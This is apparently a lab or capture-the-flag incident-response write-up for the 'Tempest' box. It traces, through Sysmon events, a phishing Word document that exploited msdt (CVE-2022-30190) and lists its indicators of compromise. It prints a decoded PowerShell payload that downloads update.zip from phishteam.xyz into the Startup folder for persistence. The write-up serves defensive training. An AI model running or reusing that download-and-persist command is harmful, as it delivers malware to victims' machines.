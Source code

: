 # Tempest Box

Box Aim: log analysis, network packet analysis

**Scenario:** 

In this incident, you will act as an Incident Responder from an alert triaged by one of your Security Operations Center analysts. The analyst has confirmed that the alert has a CRITICAL severity that needs further investigation.

As reported by the SOC analyst, the intrusion started from a malicious document. In addition, the analyst compiled the essential information generated by the alert as listed below:

- The malicious document has a .doc extension.
- The user downloaded the malicious document via chrome.exe.
- The malicious document then executed a chain of commands to attain code execution.
- Investigation Guide

**﻿To aid with the investigation, you may refer to the cheatsheet crafted by the team applicable to this scenario:**

- Start with the events generated by Sysmon.
- EvtxEcmd, Timeline Explorer, and SysmonView can interpret Sysmon logs.
- Follow the child processes of WinWord.exe.
- Use filters such as ParentProcessID or ProcessID to correlate the relationship of each process.
- We can focus on Sysmon events such as Process Creation (Event ID 1) and DNS Queries (Event ID 22) to correlate the activity generated by the malicious document.


Write Up
---

Reasoning: The 2 information we know is that the user downloaded a malicious document from chrome. Thus, the whole event starts with chrome. Lets look at all the chrome related events by typing
chrome in Sysmon View and Timeline Explorer.

As standard practice, we should always check the hash of the artifacts.
![hashcheck](images/Tempest_01.png)

Since every thing starts with chrome, lets check what we can find with chrome regardless of the questions. Below shows an image where we can start to understand the incident and construct the
and IOCs.

![first interaction](images/Tempest_02.png)

The incident started at 2022-06-20 17:12:57, where the user benimaru using the machine TEMPEST visited the domain phishteam.xyz with the IP:167.71.199.191. At 2022-06-20 17:12:58, a malicious word 
document free_magicules.doc was downloaded to the location: C:\Users\benimaru\Downloads.

Next, lets search for any related events related to free_magicules.doc.

![free_magicules.doc](images/Tempest_03.png)

and we found that the document was opened at 17:13:12 with a PID: 496. Now lets have a look at the same stuff in sysmon view.

![initialc2 connection](images/Tempest_04.png)

looking at the image, we see that the file was executed successfully and registry event has changed. We can check what process and commands was created after the word is executed by looking at
events around that time as well as finding a PPID: 496 (process spawn by the doc).

![interesting command](images/Tempest_05.png)

Looking at the command there is a very long base64 string which is executed by the msdt.exe (17:13:35), which is associated with CVE-2022-30190. After decoding it, it is `$app=Environment]::GetFolderPath('ApplicationData');cd "$app\Microsoft\Windows\Start Menu\Programs\Startup"; iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip; Expand-Archive .\update.zip -DestinationPath .; rm update.zip;`

With this command, we know that a new file was downloaded. Lets check all the events related to update.zip.
![download location](images/Tempest_06.png)

It was downloaded to 'C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup'.

The files in startup folder will be executed as a user logon to the machine, after searching, on successful logon, the event 4624 will be logged to windows event logs. lets look at what a logon 
event around/after that time. As well as having a sysmon event ID 1 process creation.
![logon](images/Tempest_07.png)





**IOC List**
- Domain Name: phishteam.xyz (IP: 167.71.199.191)
- free_magicules.doc
- update.zip




